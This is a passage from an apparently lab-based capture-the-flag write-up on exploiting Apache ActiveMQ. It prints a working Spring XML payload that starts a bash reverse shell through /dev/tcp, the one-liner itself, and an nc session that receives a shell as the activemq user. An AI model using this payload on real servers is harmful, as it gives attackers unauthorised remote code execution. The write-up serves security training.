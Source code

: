There is a hit at my websertver (twice actually):

```
10.10.11.243 - - [08/Nov/2023 13:33:53] code 404, message File not found
10.10.11.243 - - [08/Nov/2023 13:33:53] "GET /test.xml HTTP/1.1" 404 -
10.10.11.243 - - [08/Nov/2023 13:34:26] code 404, message File not found
10.10.11.243 - - [08/Nov/2023 13:34:26] "GET /test.xml HTTP/1.1" 404 -

```

So I need to look at this XML file. The exploit comes with `poc.xml`:

```

<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>

```

It’s clearly calling a classic [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), `bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001'`. I’ll update the payload to my IP address and host it with the Python webserver.

With `nc` listening on 9001, I’ll run the exploit again. It fetches `poc.xml` (twice):

```
10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -

```

And then a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.243 60298
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$

```
